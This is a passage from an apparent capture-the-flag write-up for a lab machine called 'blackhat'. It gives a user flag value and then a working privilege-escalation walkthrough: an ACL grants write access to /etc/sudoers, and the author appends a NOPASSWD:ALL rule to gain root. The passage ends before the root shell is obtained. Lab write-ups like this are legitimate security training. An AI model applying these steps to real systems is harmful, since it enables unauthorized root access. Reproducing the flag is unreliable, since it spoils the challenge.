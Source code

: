 The user flag is `89fac491dc9bdc5fc4e3595dd396fb11`.

### 6. Privilege Escalation to `root`

As `darkdante`, I checked `sudo` permissions.

```shellscript
darkdante@blackhat:~$ sudo -l
Sorry, user darkdante may not run sudo on blackhat.
```

`darkdante` was not allowed to run `sudo`. However, `linpeas.sh` (and manual inspection) revealed interesting permissions on `/etc/sudoers`.

```shellscript
darkdante@blackhat:~$ ls -la /etc/sudoers
-r--rw----+ 1 root root 669 Nov 19  2022 /etc/sudoers

darkdante@blackhat:~$ getfacl /etc/sudoers
getfacl: Removing leading '/' from absolute path names
# file: etc/sudoers
# owner: root
# group: root
user::r--
user:darkdante:rw-
group::r--
mask::rw-
other::---
```

The `getfacl` output clearly showed that `darkdante` had read and write (`rw-`) permissions on `/etc/sudoers` via an Access Control List (ACL). This is a critical misconfiguration, as it allows `darkdante` to modify the `sudoers` file and grant themselves root privileges.

I first made a backup of the original `/etc/sudoers` file (good practice).

```shellscript
darkdante@blackhat:~$ cp /etc/sudoers /tmp/sudoers.bak
```

Then, I appended a line to `/etc/sudoers` to grant `darkdante` NOPASSWD `ALL` privileges.

```shellscript
darkdante@blackhat:~$ echo 'darkdante ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers
```

I verified the new `sudo` permissions for `darkdante`.

```shellscript
darkdante@blackhat:~$ sudo -l
Matching Defaults entries for darkdante on blackhat:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User darkdante may run the following commands on blackhat:
    (ALL : ALL) NOPASSWD: ALL
```

With `NOPASSWD: ALL` configured, I could now easily get a root shell.

